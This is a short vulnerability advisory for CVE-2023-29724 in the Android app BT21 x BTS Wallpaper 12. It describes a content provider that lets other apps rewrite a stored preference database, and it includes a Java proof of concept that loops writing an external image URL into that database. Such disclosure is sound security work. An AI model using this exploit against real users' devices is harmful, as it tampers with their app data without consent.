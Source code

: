 ## Escalation of Privileges exists in BT21 x BTS Wallpaper（CVE-2023-29724）

Vendor：bungaakpstudio007

Affected product：BT21 x BTS Wallpaper(com.bungaakp007.bt21wallpaperoffline130920)

Version：12.0

Download link：https://apkpure.com/cn/bt21-x-bts-wallpaper-hd-4k/com.bungaakp007.bt21wallpaperoffline130920/download/12-APK

Description of the vulnerability for use in the CVE：The BT21 x BTS Wallpaper app 12 for Android allows unauthorized apps to actively request permission to modify data in the database that records information about a user's personal preferences and will be loaded into memory to be read and used when the app is opened. An attacker could tamper with this data to cause an escalation of privilege attack.



poc：

```java
public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        while (true) {
            Uri uri = Uri.parse("content://com.bungaakp007.bt21wallpaperoffline130920/wall");
            ContentValues contentValues = new ContentValues();
            contentValues.put("nama","https://nimg.ws.126.net/?url=http%3A%2F%2Fdingyue.ws.126.net%2F2022%2F1107%2F4cc9e200j00rkyl4o0010c000uk00kdg.jpg&thumbnail=660x2147483647&quality=80&type=jpg");
            contentResolver.update(uri,contentValues,null,null);
        }
    }
```



